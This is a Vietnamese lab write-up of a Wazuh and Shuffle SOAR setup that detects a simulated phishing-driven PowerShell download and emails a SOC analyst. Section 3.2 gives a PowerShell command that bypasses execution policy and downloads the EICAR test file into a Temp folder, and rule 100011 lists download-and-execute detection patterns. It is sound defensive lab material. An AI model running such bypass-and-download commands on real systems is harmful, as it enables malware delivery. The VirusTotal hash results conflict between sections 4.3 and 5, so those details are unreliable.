# Phishing Malware Response

## Mô tả kịch bản

Kẻ tấn công gửi email chứa link độc hại. Nạn nhân vô tình chạy lệnh PowerShell (fileless attack) để tải về `malware_payload.exe`. Hệ thống Wazuh + Shuffle tự động phát hiện, điều tra và gửi cảnh báo đến SOC Analyst.

**MITRE ATT&CK:** T1566.001 (Spearphishing Attachment), T1059.001 (PowerShell), T1105 (Ingress Tool Transfer), T1027 (Obfuscated Files)

---

## 1. Cấu hình Wazuh

### 1.1 Active Response – `netsh` block IP

Khai báo lệnh `netsh` trong `ossec.conf` trên Wazuh Manager. Lệnh sử dụng `netsh.exe` với tham số `srcip` để nhận IP cần chặn từ alert, `timeout_allowed` cho phép tự động gỡ block sau thời gian nhất định. Block `<active-response>` liên kết command này với location `local` — tức chỉ thực thi trên chính agent phát sinh alert.



### 1.2 Tích hợp Shuffle webhook

Cấu hình integration `custom-shuffle` trong `ossec.conf`. Trường `hook_url` trỏ đến webhook của Shuffle workflow. Trường `rule_id` liệt kê các rule ID sẽ kích hoạt forward alert sang Shuffle: `92213, 92027, 100011, 100002, 100013`. Alert được gửi dưới dạng JSON (`alert_format`).



### 1.3 Syscheck – giám sát file realtime

Bật module syscheck trên Wazuh Manager với `frequency` 43200 giây (12 tiếng). Hai tùy chọn quan trọng: `scan_on_start` để quét ngay khi agent khởi động, và `alert_new_files` để tạo alert khi phát hiện file mới — đây là cơ sở để phát hiện `malware_payload.exe` được tải về. `auto_ignore` tắt để đảm bảo mọi thay đổi đều được ghi nhận.



### 1.4 Custom rules

| Rule ID | Level | Mô tả |
|---------|-------|-------|
| 100040 | 12 | Email phishing phát hiện từ Shuffle (`email_phishing`) |
| 100041 | 14 | URL độc hại trong email (`email_malicious_url`) |
| 100042 | 15 | File đính kèm độc hại (`email_malicious_attachment`) |
| 100050 | 14 | SOAR Action – hệ thống tự động chặn IP |
| 100003 | 11 | Sysmon phát hiện file drop vào Temp/Downloads |
| 100011 | 14 | PowerShell LOLBin/fileless attack |

**Rule 100042 – Malicious attachment:**

Rule level 15 (critical), kế thừa từ `if_sid 1`. Kiểm tra trường `shuffle.alert_type` có giá trị `email_malicious_attachment`. Description động sử dụng biến `$(shuffle.filename)` và `$(shuffle.vt_score)` để hiển thị tên file và số engine VT phát hiện. MITRE: T1566.001, T1204.002.



**Rule 100041 – Malicious URL:**

Rule level 14, tương tự 100042 nhưng kiểm tra `shuffle.alert_type = email_malicious_url`. Description hiển thị `$(shuffle.malicious_url)` và `$(shuffle.vt_score)`. MITRE: T1566.002, T1071.001.



**Rule 100040 – Email phishing base:**

Rule level 12, là rule gốc phát hiện email phishing từ Shuffle (`shuffle.alert_type = email_phishing`). Description hiển thị `$(shuffle.sender_ip)` — IP của người gửi email. MITRE: T1566.002. Đây là rule nền để các rule 100041, 100042 kế thừa và mở rộng.



**Rule 100050 – SOAR firewall-drop:**

Rule level 14, kế thừa từ `if_sid 600`. Match chuỗi `add|firewall-drop` trong log. Được tạo ra để ghi nhận sự kiện khi Wazuh Active Response thực thi lệnh block IP thành công trên Windows agent thông qua Windows Defender Firewall.



**Rule 100011 – PowerShell LOLBin/fileless attack:**

Rule level 14, kế thừa từ `if_sid 61503`. Dùng PCRE2 để phát hiện `powershell.exe` trong `win.eventdata.image`, đồng thời match pattern trong `win.eventdata.commandLine`: `-enc\b|downloadstring|iex\s|invoke-expression|new-object.*webclient|downloadfile|bypass`. Đây là các kỹ thuật fileless attack điển hình — thực thi payload trực tiếp trong memory mà không ghi file xuống disk. MITRE: T1059.001, T1105, T1027.



**Rule 100003 – Sysmon file drop vào Temp/Downloads:**

Rule level 11, kế thừa từ nhóm `sysmon_eid11_detections`. Dùng PCRE2 match `win.eventdata.targetFilename` theo pattern `(?i)[/\\](Temp|AppData|Downloads|Public)[/\\].+\.(exe|dll|ps1|vbs|bat|hta|js|scr)$` — phát hiện file thực thi hoặc script được tạo trong các thư mục tạm/download nhạy cảm. MITRE: T1566.001, T1105.



### 1.5 Cấu hình agent (Windows 10)

File `ossec.conf` trên Windows agent cấu hình 3 phần chính: (1) `<client>` khai báo địa chỉ Wazuh Manager `192.168.1.100`, port `1514`, giao thức TCP; (2) `<localfile>` thu thập log Sysmon từ channel `Microsoft-Windows-Sysmon/Operational`; (3) `<syscheck>` giám sát realtime 3 thư mục với `check_all`, `realtime`, và `report_changes`: `Downloads`, `Desktop`, `C:\Windows\Temp`. Active-response được bật (`disabled>no`).



---

## 2. Shuffle Workflow

### 2.1 Tổng quan workflow



### 2.2 Phân tích luồng xử lý sự cố

Workflow gồm 10 bước xử lý tuần tự, kết thúc bằng 2 nhánh alert dựa trên kết quả kiểm tra:

| Bước | Node | Mô tả |
|------|------|-------|
| 1 | **Wazuh alert in** | Nhận alert từ Wazuh qua webhook khi rule 100011 / 100003 kích hoạt |
| 2 | **Receive log** | Parse JSON log, chuẩn bị dữ liệu cho các bước tiếp theo |
| 3 | **Extract url** | Trích xuất URL từ trường `win.eventdata.commandLine` bằng regex |
| 4 | **Base64 url** | Encode URL sang base64 để gọi VirusTotal API (`/urls/{id}`) |
| 5 | **Clean base64** | Loại bỏ padding `=` và ký tự xuống dòng, chuẩn hóa chuỗi base64 |
| 6 | **Vt check url** | Gọi VirusTotal API kiểm tra URL, lấy `last_analysis_stats` |
| 7 | **Vt check ip** | Gọi VirusTotal API kiểm tra IP kết nối (trích từ alert) |
| 8 | **Extract hash** | Trích xuất SHA256 hash của file từ trường `data.win.eventdata.hashes` |
| 9 | **Vt check hash** | Gọi VirusTotal API kiểm tra hash file, lấy kết quả `last_analysis_stats` |
| 10a | **Send alert 1** | Gửi email cảnh báo nếu **hash file bị đánh giá malicious trên VirusTotal** |
| 10b | **Send alert 2** | Gửi email cảnh báo nếu **hash file nghi ngờ là mã độc Zero-day** (chưa có trên VT) |

> **Lưu ý:** Hai nhánh `Send alert 1` và `Send alert 2` hoạt động độc lập, mỗi nhánh được kích hoạt bởi 1 condition riêng — đảm bảo cảnh báo được gửi ngay khi bất kỳ nguồn nào phát hiện mối đe dọa.

---

## 3. Thực thi tấn công

### 3.1 Wazuh Agent – xác nhận kết nối

Wazuh dashboard hiển thị agent `DESKTOP-7FF2J6R` (ID: 001) với IP `192.168.1.13`, hệ điều hành Windows 10 Pro 10.0.19045.2965, phiên bản agent v4.7.0, trạng thái **Active**. Agents coverage đạt 100% — xác nhận môi trường lab sẵn sàng cho kịch bản tấn công.


### 3.2 Mô phỏng tấn công

Chạy lệnh PowerShell fileless để tải `malware_payload.exe` từ `http://secure.eicar.org/eicar.com` về thư mục `AppData\Local\Temp`:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile('http://secure.eicar.org/eicar.com', 'C:\Users\ndhai\AppData\Local\Temp\malware_payload.exe')"
```

Lệnh dùng `-ExecutionPolicy Bypass` để vượt qua chính sách thực thi PowerShell và `WebClient.DownloadFile` để kéo payload — đây là pattern điển hình của fileless attack thuộc nhóm LOLBin (Living off the Land Binaries).



### 3.3 Wazuh phát hiện – Sysmon log

Wazuh Discover ghi nhận **294 hits** trong khung thời gian tấn công (Apr 9–10, 2026). Log được Sysmon thu thập từ channel `Microsoft-Windows-Sysmon/Operational`, forward qua EventChannel đến Wazuh. Các trường quan trọng: `data.win.eventdata.image` = `powershell.exe`, `data.win.eventdata.targetFilename` = `C:\Users\ndhai\AppData\Local\Temp\malware_payload.exe`, `data.win.eventdata.ruleName` = `EXE`.



Chi tiết log ở dạng Table cho thấy đầy đủ metadata của sự kiện Sysmon EventID 11 (FileCreate): processId `7032`, processGuid, thời điểm tạo file `2026-04-09 17:33:28.830`, user `DESKTOP-7FF2J6R\ndhai` — đủ thông tin để phân tích forensic sau sự cố.



### 3.4 Security Alerts kích hoạt

Wazuh Security Alerts hiển thị 4 alert được kích hoạt trong khoảng thời gian tấn công. Hai alert quan trọng nhất: rule **100003** (level 11, MITRE T1566.001 + T1105) phát hiện file `malware_payload.exe` được tạo trong thư mục Temp, và rule **100011** (level 14, MITRE T1059.001 + T1105 + T1027) phát hiện PowerShell fileless attack với commandLine đầy đủ.



Chi tiết alert rule 100003: timestamp `2026-04-10 00:33:28.846`, agent `DESKTOP-7FF2J6R`, tactic **Initial Access, Command and Control**, technique **Spearphishing Attachment, Ingress Tool Transfer**. Trường `data.win.eventdata.targetFilename` xác nhận đường dẫn chính xác của malware.



---

## 4. Phân tích trong Shuffle

### 4.1 Nhận alert – Runtime Argument

Shuffle nhận được alert từ Wazuh webhook với payload JSON đầy đủ: `severity: 3`, `rule_id: 100011`, title chứa commandLine PowerShell đầy đủ, `id: 1775845594.1852740`, timestamp `2026-04-10T18:26:34.482+0000`. Trường `text.win` chứa `system` (16 items) và `eventdata` (22 items) — đủ dữ liệu cho các bước phân tích tiếp theo.



### 4.2 Kết quả VirusTotal – kiểm tra URL

VirusTotal trả về kết quả phân tích URL `https://secure.eicar.org/eicar.com`: `last_final_url` xác nhận URL resolve thành công. `last_analysis_stats` cho thấy **11 malicious**, 1 suspicious, 28 undetected, 55 harmless. Các engine đánh giá malicious bao gồm BitDefender (`computersandsoftware`) và Sophos (`spyware and malware`).



### 4.3 Kết quả VirusTotal – kiểm tra hash file

VirusTotal trả về kết quả hash SHA256 của `malware_payload.exe`: `type_tag = peexe` (PE executable), `sigma_analysis_summary` phát hiện **1 high** và 1 medium Sigma rule từ GitHub ruleset. `last_analysis_results` chứa 76 items — kết quả quét từ 76 AV engine. Đây là mẫu EICAR test file được nhận diện rộng rãi.



---

## 5. Email cảnh báo SOC

Shuffle tổng hợp toàn bộ kết quả và gửi email cảnh báo tiêu đề **[WAZUH ALERT] Phishing - DESKTOP-7FF2J6R** đến SOC Analyst. Nội dung email bao gồm: thông tin máy bị tấn công (thời gian, hostname, IP, Rule ID level 14), thông tin tiến trình (`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` và commandLine đầy đủ), và kết quả phân tích VT 3 nguồn: URL Payload (malicious 11 engines), IP Connect (0 engines – false positive với TEST-NET IP), Hash File (404 – chưa có trên VT, nghi ngờ Zero-day). Cuối email yêu cầu SOC Analyst phân tích máy và phân tích mẫu file ngay lập tức.



---

## Tóm tắt luồng xử lý

```
PowerShell fileless attack
    → Sysmon EventID 11 (file create) + EventID 1 (process create)
    → Wazuh rule 100003 (level 11) + 100011 (level 14)
    → Shuffle webhook trigger
    → Base64 decode URL
    → VT check URL / VT check IP / VT check hash
    → Send alert email to SOC
```